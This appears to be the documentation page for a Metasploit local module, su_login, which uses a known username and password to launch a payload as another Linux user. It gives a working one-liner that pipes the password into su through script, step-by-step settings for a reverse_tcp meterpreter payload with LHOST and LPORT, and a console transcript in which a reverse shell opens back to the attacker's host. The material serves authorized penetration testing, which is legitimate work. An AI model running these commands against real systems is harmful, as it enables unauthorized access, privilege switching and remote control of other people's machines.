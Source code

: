 ## Description

  This module attempts to create a new login session by invoking the su command of a valid username and 
  password. If the login is successful, a new session is created via the specified payload. While this 
  functionality can be reproduced by a TTY shell, a hacker might want to switch users with a meterpreter 
  session, or simply have all of their shells managed in one place.

  The su command is used in Linux and Unix environments to change to another user in Linux. We can use this
  command to launch our payload as another user by running `su - [username] -c [payload]`. However, because
  you cannot pass in the password into su directly, we have to get a little more crafty. By running a command
  in sh, we can pipe the output to our su command (kind of) by using the following command:
  `sh -c 'sleep 1; echo [password]' | script /dev/null -qc 'su - [username] -c [payload]'`.

  Working example: `sh -c 'sleep 1; echo lamepassword' | script /dev/null -qc 'su - admin -c /tmp/shell'`

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Get valid target username and password
  4. Do: `use exploit/linux/local/su_login`
  5. Do: `set SESSION [SESSION]`
  6. Do: `set USERNAME [USERNAME]`
  7. Do: `set PASSWORD [PASSWORD]`
  8. Do: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
  9. Do: `set LHOST [LHOST]`
  10. Do: `set LPORT [LPORT]`
  11. Do: `run`
  12. You should get a new session as the specified user

## Options

  | Name     | Description                                         |
  |----------|-----------------------------------------------------|
  | SESSION  | Which session to use, can be viewed with `sessions` |
  | USERNAME | The username of the user to switch to               |
  | PASSWORD | The password of the user to switch to               |

## Scenarios

  ```
  msf > use exploit/linux/local/su_login 
  msf exploit(linux/local/su_login) > set SESSION 1
  msf exploit(linux/local/su_login) > set USERNAME admin
  msf exploit(linux/local/su_login) > set PASSWORD lamepassword
  msf exploit(linux/local/su_login) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/su_login) > set LHOST 192.168.3.193
  msf exploit(linux/local/su_login) > set LPORT 4445
  msf exploit(linux/local/su_login) > run

  [*] Started reverse TCP handler on 192.168.3.193:4445 
  [*] Uploading payload to target
  [*] Attempting to login with su
  [*] Sending stage (976712 bytes) to 172.17.0.2
  [*] Meterpreter session 2 opened (192.168.3.193:4445 -> 172.17.0.2:39868) at 2020-09-23 04:26:49 -0400

  meterpreter > getuid
  Server username: admin @ 59f089909a39 (uid=1001, gid=1001, euid=1001, egid=1001)
  ```
